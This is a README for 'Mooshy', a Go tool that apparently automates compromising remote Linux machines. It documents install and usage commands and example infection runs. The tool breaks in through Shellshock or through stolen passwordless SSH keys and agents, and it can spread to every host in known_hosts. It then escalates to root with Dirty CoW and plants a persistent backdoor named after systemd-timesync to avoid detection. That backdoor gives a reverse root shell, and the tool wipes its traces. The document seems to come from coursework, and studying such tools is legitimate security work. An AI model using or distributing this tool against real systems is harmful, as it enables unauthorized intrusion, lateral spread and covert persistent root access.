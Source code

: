 [![Build Status](https://travis-ci.org/rvolosatovs/mooshy.svg?branch=master)](https://travis-ci.org/rvolosatovs/mooshy)

# Mooshy

## Description
Mooshy is a tool that automates the infection and execution of arbitrary code on remote Linux systems. It infects the victim machine exploiting either a [ShellShock Bash vulnerability](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) or by using a password-less SSH key or a running SSH agent. Once access to the machine is granted, [Dirty CoW](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) exploit is used to start a SUID root shell, through which a backdoor is installed on the system, masked as a systemd service file.

[![asciicast](https://asciinema.org/a/176277.png)](https://asciinema.org/a/176277)

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

## Development:
```sh
    make
```

## Generation of the report:
```sh
    make report
```

\pagebreak

## Usage:
_Default values of some variables are environment-dependent_
```
$ mooshy -help
  Usage of mooshy:
    -addr string
      	The lucky guy(in case of Shell Shock - endpoint)
    -c string
      	Command to run before shell start
    -moosh string
      	Path to moosh. If empty - uses the one from https://github.com/rvolosatovs/mooshy/releases/latest
    -shellShock
      	Use Shell Shock for the infection
    -ssh
      	Use SSH for the infection
    -sshAgent string
      	Path to SSH agent socket for SSH infection (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
    -sshKey string
      	Path to (passwordless) SSH private key for SSH infection (default "/home/rvolosatovs/.ssh/id_rsa")
    -sshKnown string
      	Path to SSH known_hosts file for SSH infection (default "/home/rvolosatovs/.ssh/known_hosts")
    -sshUser string
      	Username to connect as using SSH infection (default "rvolosatovs")
    -tcp string
      	TCP address to listen on in execution mode (default ":0")
    -token string
      	Github token to use
    -useSSHAgent
      	Use SSH agent for SSH infection
    -useSSHKey
      	Use (passwordless) SSH private key for SSH infection
    -useSSHKnown
      	Infect all hosts in SSH known_hosts file using SSH infection
    -wipe
      	Wipe the backdoor in execution mode (The self-destructing script will be appended to '-c')
```

\pagebreak

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
   mooshy -shellShock -addr http://192.168.56.102/cgi-bin/index.cgi # ShellShock
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Shellshock:
        - Sends a GET request to `addr` specified, with embedded script in `User-Agent` header, which downloads `moosh` binary using `curl` and makes it executable.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system.
    - Creates, enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

\pagebreak

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the backdoor running on the infected victim and returns a reverse `root` shell.

\pagebreak

# Attack analysis

## Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

## Shellshock
> A flaw was found in the way Bash evaluated certain specially crafted environment variables. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue. ([Source](https://access.redhat.com/security/cve/cve-2014-6271))

## Infection
Once root access is gained through the Dirty CoW exploit, the machine is infected with a persistent backdoor. The binary code for the backdoor is embedded in the `moosh` binary. It creates and enables a new systemd service in `/lib/systemd/system/systemd-timesync.service` and installs the binary as `/lib/sytemd/systemd-timesync`. This name was chosen for its similarity to the existing `systemd-timesyncd` service, to hopefully avoid detection from unsuspecting users. All traces of the exploit are then erased, leaving only the newly installed service. 

\pagebreak

## Backdoor
The `systemd-timesync` service creates a raw socket that listens to TCP requests. The raw socket allows the backdoor to listen on all TCP ports with a single socket, while the TCP payload is still handled by the kernel so that normal service by the victim machine is unaffected. When a packet with a specific payload is received, it triggers the backdoor to open a reverse shell to the attacker's machine. The payload consists of a sentinel value, followed by the port number on which the attacker is listening for a reverse shell connection.

The backdoor then opens a new TCP connection to the source IP of the triggering packet, using the specified port. Since the backdoor is run as a systemd service, it has no TTY attached. Instead, it uses the `script` executable, which is installed on linux by default, to create a PTY and connect it to `/bin/bash`. This opens a fully interactive root shell on the victim's machine, whose input and output are then connected to the opened TCP connection. 

## Buffer overflow
A buffer overflow occurs when more data is put in a buffer than it can hold, leading to overwrite adjacent memory locations being overwritten. This problem can be abused to alter the return address and inject code on the stack.

To illustrate this concept, a vulnerable HTTP daemon (`hHTTPd`) is supplied as a proof of concept. It stores the HTTP request and reflects the path back to the client in the message body. However, if the user requests a path that is too long, it overflows the request buffer. This vulnerability is exploited to gain code execution. _At the moment, this is not implemented._

# Technical setup
The PoC uses vanilla Ubuntu 16.04 LTS with [Bash version 4.3-6](https://ubuntu.pkgs.org/14.04/ubuntu-main-amd64/bash_4.3-6ubuntu1_amd64.deb.html), OpenSSH service and Apache2 web server running.
Setup script can be found at `./setup.sh`.
